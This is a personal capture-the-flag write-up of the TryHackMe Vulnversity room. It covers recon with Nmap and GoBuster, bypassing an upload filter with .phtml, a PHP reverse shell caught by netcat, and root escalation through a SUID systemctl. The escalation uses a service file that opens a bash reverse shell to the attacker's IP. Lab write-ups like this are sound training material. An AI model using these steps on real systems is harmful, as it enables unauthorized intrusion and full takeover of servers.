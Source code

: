 # Vulnversity Room - CTF

This weekend I completed the Vulnversity room. 
This room was an introductory room that gave some guidance on where to look and stepped through the major points of getting the initial reverse shell operating.

From there, the privilege escalation was left up to me to work out. 

The target was a webserver, the exploitation based was based on PHP. The web server had a PHP upload portal where I was able to upload a reverse PHP shell, then through this shell escalate my privileges to root using a misconfigured permission on the systemctl program within the server.

Notes: 
 - I have not included the basic setup steps for TryHackMe. 
 - Initially I started using the provided 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN so my IP address and the target IP address IPs changed a few times throughout my process description below.

### Tools
I used the following tools:
- Kali Linux
- Nmap
- Netcat
- GoBuster
- Burp
- Linux shell
- Php reverse shell (see link in write up below)

Here is how it went:

## Step 1: Reconnaissance

### Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

### GoBuster to discover interesting folders on the web server

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

Now I looked for additional interseting folders within the /internal URI using GoBuster again.
This found another folder called *uploads* which looks interesting, likely the directory where the upload portal drops files. 

![image](https://user-images.githubusercontent.com/60744763/120176571-c72e4980-c24a-11eb-8e7f-8e684f0761e2.png)


## Step 2: Attempt to deliver a pay load and compromise the server

I used Burp to try and find out what types of file extensions can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allowed me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

### Now we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points back to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup a netcat listener with this command: `nc -lvnp 1234`
This will listen for an incoming connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder in a file called 'user.txt'.

![image](https://user-images.githubusercontent.com/60744763/120173380-533e7200-c247-11eb-9091-768cf087f58d.png)

## Step 3: Privilege Escalation

Now we want to attemp to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. Since a normal user can stop, start and even create services.

![image](https://user-images.githubusercontent.com/60744763/120173803-bf20da80-c247-11eb-8a77-87f0e5b9c0e4.png)

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this... BRB

Ok I'm back! I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service file as below, which will be my service file:
```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120178127-7cadcc80-c24c-11eb-9475-61e569611f31.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120174190-29d21600-c248-11eb-9cf7-bbf5514c3653.png)

The flag was found in the folder /root/



